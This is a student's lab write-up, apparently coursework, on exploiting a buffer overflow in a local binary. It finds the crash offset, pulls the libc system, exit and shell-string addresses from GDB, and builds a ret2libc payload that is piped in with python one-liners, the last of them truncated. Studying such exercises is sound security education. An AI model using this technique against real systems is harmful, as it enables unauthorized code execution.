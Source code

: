 **AT THE BOTTOM OF THIS DOCUMENT ARE SCREENSHOTS WHICH SHOW MY STUDENT ID/PROOF THAT THESE ARE MY SCREENSHOTS AND NO ONE ELSE'S**

**Question 1**
![[Pasted image 20240131132855.png]]

--------------------------------------

**Question 2**
![](Pasted%20image%2020240202142549%201.png)
Here you can see at `54` 'A' characters, a segmentation fault occurs. Lower than `54`, like `53`, should be fine.

-------------------

**Question 3**
*Grabbing the exit, system, and shell hex values from GDB*
![](Pasted%20image%2020240202150653%201.png)
exit : 0xf7c3c130 (\\x30\\xc1\\xc3\\xf7)
system: 0xf7c4c830 (\\x30\\xc8\\xc4\\xf7)
shell : 0xffffd521 + 6 = 0xffffd527 (\\x27\\xd5\\xff\\xff)

exit + system + shell (all in little endian) = payload
"\\x30\\xc1\\xc3\\xf7" + "\\x30\\xc8\\xc4\\xf7" + "\\x27\\xd5\\xff\\xff" = payload

r `python -c 'print("\x30\xc1\xc3\xf7"+"\x30\xc8\xc4\xf7"+"\x27\xd5\xff\xff")'`

*Tried to run payload in gdb, but realized it was incorrect*
![](Pasted%20image%2020240202153813%201.png)

*Passing the payload by value with pipe*
![](Pasted%20image%2020240202153704%201.png)
I print the NOP buffer 50 times, followed by the exit address, then the system address, then the modified shell address (+6 to original address), and piped it into `example3.out` to get the segmentation fault. 

```
python2 -c 'print"\x90"*50+"\x30\xc1\xc3\xf7"+"\x30\xc8\xc4\xf7"+"\x" | ./example3.out
```

*Both Executions (with Payload, without Payload)*
![](Pasted%20image%2020240202154908%201.png)


**Instead of going back and taking all the screenshots again, I took a large screenshot with the commands I used, and at the top of the terminal, you can see the tabs I created for which shows/proves that these are my own commands and no one else's.**

------------------------
![](Pasted%20image%2020240205131321.png)![](Pasted%20image%2020240205131526.png)
![](Pasted%20image%2020240205131554.png)

